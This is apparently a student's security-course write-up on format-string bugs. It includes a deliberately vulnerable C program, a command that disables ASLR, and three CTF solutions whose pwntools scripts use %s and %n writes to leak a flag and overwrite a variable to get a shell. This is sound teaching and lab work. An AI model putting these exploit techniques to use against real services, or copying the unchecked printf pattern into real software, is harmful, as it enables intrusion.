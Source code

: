 # Format sting

### Preparation
* Shutting down countermeasures
we'll turn off the address randomization in order to make it easier to guess the heap and stack address.
```
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Vulnerable file

```C
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg) {
    // This line has a format-string vulnerability
    printf(msg);
}
int main(int argc, char **argv) {
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```
This file is clearly unsafe since the input from the user read in int main() is passed to a function which then calls printf, without having been checked.

### Environment Setup
* To simplify the attack, we'll turn off user address space randomization **to a function which then calls printf**.
* Our program will be compiled into both 64-bit and 32-bit (-m32 option).
* The program will also need to be compiled with the **-z execstack** option, in order, to make the stack executable.





# CTF 7 Format Strings

## Desafio 1

In  the port 4004 there was a C program running, with a format string vulnerability present in the line 27:
```C
printf(buffer)```

The program had the following protections:

-> NX: Cannot execute in the Stack
-> Canarys: Cannot overflow buffers

```
checksec program
  Arch:     i386-32-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x8048000) ```


Apart from this we also foundout the Binary position is absolute (no PIE) and the binary is 32-bit.


The vulnerable file loads the global variable flag with the contents of flag.txt at the beggining of program. Therefore to find the flag all we need to do is print the content of flag.

First we used gdb to get the flag variable address.


![Alt text](format_strings1_ctf_gdb.png)

After getting the address 0x804c060, the exploit consists in getting the string value in that address, which can be achieved with the format specifier %s.


```py
p = remote("ctf-fsi.fe.up.pt", 4004)
p.recvuntil(b"got:")
p.sendline(p32(0x804c060) + b"%s")
p.interactive()
```

![Alt text](format_strings1_ctf_result.png)

```
flag{669369e1c6689eb5de7c38c2feef0c95}
```

## Desafio 2

For this challenge, the checkseck result is the same as the one for challenge 1, however this time the flag is not loaded into memory. Instead, if the key value is 0xBEEF a shell will be launched, which then can be used to read the contents of the flag.txt file in the same directory.

We start by using gdb to get the address of the key global variable.

![Alt text](format_strings2_ctf_gdb.png)

0x804b324

Then we need to write to this address using the %n format specifier.
This specifier writes the number of bytes written so far into the next address in the stack.
Therefore we calculated the value in decimal we need to write besides the 4 bytes we had already written in the address:
```
0xBEEF - 4 = 
 48879 - 4 = 48875
```
  
Then we just needed to put everything together in the exploit.

```py
r = remote('ctf-fsi.fe.up.pt', 4005)
r.recvuntil(b"here...")
r.sendline(p32(0x804b324) +b"%1$.48875x" + b"%n")
r.interactive()
```
![Alt text](format_strings2_ctf_result.png)

```
flag{aade366f8dc239bab6f89db1f010b512}
```



## Desafio 3

Challenge 3's source code was identical to the source code in challenge number 2. However this time the address of the key global variable was 0x804b320.

![Alt text](format_strings3_ctf_gdb.png)

This is doesn't allow to use the same approach we used in challenge 2 as \x20 is the ascii representation of the space character which messes with the address we want to write to.

Therefore, we tried to write 0xBEEF00 to the address immediately before: 0x804b31F.

However the decimal representation of 0xBEEF00 is 12513024, which would require us to write that amount of characters in the input, and consequently get a connection timeout.

In order to go around this obstacle we decided to split the writing of the variable into 2.

0x804b321 -> 0xBE = 190
0x804b31F -> 0xEF00 = 61184

This approach reduces the amount of characters we need to write drastically while getting the same output.

This led to the exploit:

```py
r = remote('ctf-fsi.fe.up.pt', 4008)
r.recvuntil(b"here...")
r.sendline(p32(0x804b321) + p32(0x804b31F) + b"%182x" + b"%1$hhn" + b"%60994x" + b"%2$hn")
r.interactive()
```

![Alt text](format_strings3_ctf_result.png)

```
flag{8e9f922b23b061c32d1b2802bd363057}
```





